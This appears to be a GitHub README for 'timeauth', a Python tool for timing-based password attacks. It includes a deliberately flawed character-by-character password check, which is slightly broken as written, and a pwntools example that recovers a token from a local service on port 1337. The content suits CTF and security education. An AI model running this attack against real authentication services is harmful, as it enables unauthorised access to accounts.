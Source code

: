 # Time Authentication Attack Tool

Python Time Based Authentication Attack Tool

## Development

You can contribute by sending merge requests and/or issues on this github opensource project.

## Demo:

[![asciicast](https://asciinema.org/a/126628.png)](https://asciinema.org/a/126628)

## Usage:

### Installation

You can install this package by launching:

```sh
> git clone git@github.com:SakiiR/timeauth.git
[...]
> pip install ./timeauth/
> # Done
```

### Examples

Suppose that we have a listenning tcp service on `localhost:1337` waiting for a password input. 
What if the code behind this TCP service have been done by a weird developer and checks your input char by char
and sleeping each time it checks your char ( or do a BIG action on his server that take some time ).

```sh
> nc localhost 1337
Hello !
password please: SakiiR
Bad Password ! BYE BYE
[!] Closed connection ..
```

And the following backend password verification:

```py
def check_password(input, real):
    if(len(input_flag) == 0):
            return False
        for left, right in zip_longest(input_flag, flag):
            if(left != right):
                return False
            sleep(0.25) # prevent brute forcing
        return True
```

This package has been made to make exploitation of this kind of service faster by implementating a Single Class.

exemple:

```py
from time import time
from pwn import remote, context
from timeauth import TimeAuthChecker


class ExampleChecker(TimeAuthChecker):

    def __init__(self):
        super(self.__class__, self).__init__(
            charset="0123456789",
            token_length=10,
            hidden_char="*"
        )

    def request(self):
        context.log_level = 'error'
        s = remote('localhost', 1337)
        base_time = time()
        s.recvuntil(':')
        s.sendline(self.get_token())
        s.readall()
        s.close()
        context.log_level = 'info'
        return time() - base_time

if __name__ == "__main__":
    a = ExampleChecker()
    a.process()
    a.print_token()
```
### Todo

* Add a Time Based SQL Injection Module
* Add a Blind SQL Injection Module
* Python3 Support

